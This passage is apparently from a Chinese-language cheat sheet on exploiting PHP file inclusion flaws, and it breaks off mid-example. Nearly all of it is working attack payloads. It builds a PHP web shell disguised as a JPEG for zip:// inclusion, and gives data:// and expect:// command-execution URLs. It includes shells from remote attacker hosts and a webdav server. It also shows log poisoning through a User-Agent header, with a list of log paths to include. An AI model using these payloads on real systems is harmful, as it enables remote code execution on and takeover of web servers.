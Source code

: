 	echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
	zip payload.zip payload.php;
	mv payload.zip shell.jpg;
	rm payload.php
	http://example.com/index.php?page=zip://shell.jpg%23payload.php

	http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
  #### expect
  	http://example.com/index.php?page=expect://id
	http://example.com/index.php?page=expect://ls
  #### allow_url_include 开启时Getshell
	远程文件包含
	1.php?file=http://remote.com/shell.txt
	1.php?file=php://input  POST:<?php phpinfo();?>
	1.php?file=http://remote.com/shell.txt%00
	1.php?file=http:%252f%252fremote.com%252fshell.txt
	或使用curl
	>curl -v "http://127.0.0.1:8888/ctf/cli/3.php?file=php://input" -d "<?php phpinfo();?>"
	或使用data://协议解析base64的代码
	/1.php?file=data://text/plain;base64,PD9waHAgIHBocGluZm8oKTs/Pg==
  #### allow_url_include 关闭时Getshell
	攻击机开启共享
	/1.php?file=//attacker/1.php
	创建webdav服务，shell文件放入目录包含即可
	>docker run -v /root/webdav:/var/lib/dav -e ANONYMOUS_METHODS=GET,OPTIONS,PROPFIND -e LOCATION=/webdav -p 80:80 --rm --name webdav bytemark/webdav
	Shell文件放入/root/webdav/data
	/1.php?file=//attacker/1.php
  #### 包含日志文件getshell
	Fuzz文件
	https://github.com/fuzzdb-project/fuzzdb
	https://github.com/danielmiessler/SecLists
	https://blog.csdn.net/qq_33020901/article/details/78810035
	/1.php?file=<?php phpinfo();?>
	/1.php?file=../../../../../../../var/log/apache2/access.log
	Win下使用phpstudy
	请求/<?php phpinfo();?>
	包含错误日志
	/1.php?file=C:\phpStudy\Apache\logs\error.log

	$ curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
	$ curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id

	http://example.com/index.php?page=/var/log/apache/access.log
	http://example.com/index.php?page=/var/log/apache/error.log
	http://example.com/index.php?page=/var/log/apache2/access.log
	http://example.com/index.php?page=/var/log/apache2/error.log
	http://example.com/index.php?page=/var/log/nginx/access.log
	http://example.com/index.php?page=/var/log/nginx/error.log
	http://example.com/index.php?page=/var/log/vsftpd.log
	http://example.com/index.php?page=/var/log/sshd.log
	http://example.com/index.php?page=/var/log/mail
	http://example.com/index.php?page=/var/log/httpd/error_log
	http://example.com/index.php?page=/usr/local/apache/log/error_log
	http://example.com/index.php?page=/usr/local/apache2/log/error_log
  #### 上传个图片格式的木马直接包含
	/1.php?file=/uploadfile/1.jpg
  #### 限制后缀时
	<?php
	$file = $_GET['file'].".php";
	include($file);